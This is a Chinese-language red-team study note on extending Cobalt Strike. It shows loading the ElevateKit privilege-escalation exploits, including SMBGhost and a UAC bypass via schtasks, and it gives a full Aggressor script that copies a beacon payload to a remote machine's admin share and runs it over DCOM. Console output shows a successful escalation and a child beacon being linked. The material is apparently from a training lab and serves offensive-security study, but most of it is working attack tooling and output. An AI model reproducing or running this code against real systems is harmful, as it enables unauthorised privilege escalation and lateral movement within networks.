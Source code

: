 # Extending Cobalt Strike

这一章主要讲C2的扩展


（作者认为）好的C2框架必须具备可定制化，可扩展。

# Elevate Kit


原生的elevate命令只提供了两种提升权限的方法

```
beacon> elevate

Beacon Local Exploits
=====================

    Exploit                         Description
    -------                         -----------
    svc-exe                         Get SYSTEM via an executable run as a service
    uac-token-duplication           Bypass UAC with Token Duplication

```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661847343109.jpg)

现在加载[elevate.cna](https://github.com/Cobalt-Strike/ElevateKit)这个扩展，可以增加7个


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661847443739.jpg)

再次查看elevate命令

```
beacon> elevate

Beacon Local Exploits
=====================

    Exploit                         Description
    -------                         -----------
    cve-2020-0796                   SMBv3 Compression Buffer Overflow (SMBGhost) (CVE 2020-0796)
    ms14-058                        TrackPopupMenu Win32k NULL Pointer Dereference (CVE-2014-4113)
    ms15-051                        Windows ClientCopyImage Win32k Exploit (CVE 2015-1701)
    ms16-016                        mrxdav.sys WebDav Local Privilege Escalation (CVE 2016-0051)
    svc-exe                         Get SYSTEM via an executable run as a service
    uac-schtasks                    Bypass UAC with schtasks.exe (via SilentCleanup)
    uac-token-duplication           Bypass UAC with Token Duplication
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661847493243.jpg)

使用新加的```uac-schtasks```,成功升级到高权限


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661848979858.jpg)


# Jump & Remote-Exec

将 Invoke-DCOM.ps1 集成到jump
```
sub invoke_dcom
{
    local('$handle $script $oneliner $payload');

    # acknowledge this command1
    btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021");

    # read in the script
    $handle = openf(getFileProper("C:\\Tools", "Invoke-DCOM.ps1"));
    $script = readb($handle, -1);
    closef($handle);

    # host the script in Beacon
    $oneliner = beacon_host_script($1, $script);

    # generate stageless payload
    $payload = artifact_payload($3, "exe", "x64");

    # upload to the target
    bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload);

    # run via this powerpick
    bpowerpick!($1, "Invoke-DCOM -ComputerName $+ $2 $+ -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner);

    # link if p2p beacon
    beacon_link($1, $2, $3);
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);
```

```$+```是一个字符串的连接符号，两边都需要加空格
```
beacon> jump

Beacon Remote Exploits
======================

    Exploit                   Arch  Description
    -------                   ----  -----------
    dcom                      x64   Use DCOM to run a Beacon payload
    psexec                    x86   Use a service to run a Service EXE artifact
    psexec64                  x64   Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm                     x86   Run a PowerShell script via WinRM
    winrm64                   x64   Run a PowerShell script via WinRM

beacon> getuid
[*] Tasked beacon to get userid
[*] You are DEV\bfarmer

beacon> jump dcom srv-1 smb
[*] Tasked Beacon to run windows/beacon_bind_pipe (\\.\pipe\msagent_a3) on srv-1 via DCOM
[+] established link to child beacon: 10.10.17.25
[+] received output:
Completed
```

# Beacon Object Files

# Malleable Command & Control